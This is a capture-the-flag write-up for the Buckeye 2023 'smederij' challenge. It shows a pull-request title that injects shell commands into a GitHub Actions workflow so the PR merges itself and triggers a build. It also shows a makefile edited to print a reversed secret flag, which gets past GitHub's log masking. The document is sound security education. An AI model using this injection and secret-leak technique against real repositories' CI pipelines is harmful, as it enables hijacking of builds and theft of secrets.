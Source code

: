 # Buckeye
These are write-ups for Buckeye 2023 CTF

## smederij
This CTF primarily works through exploiting shell injection with github actions.
### goal of the exploit
What we want to do is leak the flag from build.yaml, but we do not have access to the repository in order to run actions. The only thing we can do is make pull requests to the repository, which run `label.yaml`.
### the exploit
In the first pass, github replaces certain locations in `label.yaml` with the name of the pull request. This is basic text replacement with no sanitization, so we can name our pull request in a way that injects the commands to merge our pull request and run a build action. Because `label.yaml` runs `gh` commands directly, we know it has the ability to use the `gh` command to merge the pull request automatically.
The next step is to leak the flag during the build process. This is done through the makefile, reversing the $FLAG variable before we print it to get around githubs automatic filter on printing secrets in build scripts.
### final pull request
the title of the pull request was
```
update"; gh pr merge <PR number> --merge; gh workflow run build.yaml; "
```
I also changed the makefile:
```sh
CC=gcc
CFLAGS=-I.

smith.o: smith.c
	echo "${FLAG}" | rev
	$(CC) -c -o $@ $< $(CFLAGS) -DFLAG='"${FLAG}"'

smith: smith.o
	$(CC) -o $@ smith.o $(CFLAGS)

.PHONY: clean

clean:
	rm smith *.o
```
Make the pull request, unreverse the output of the build that happens, and then you have the flag.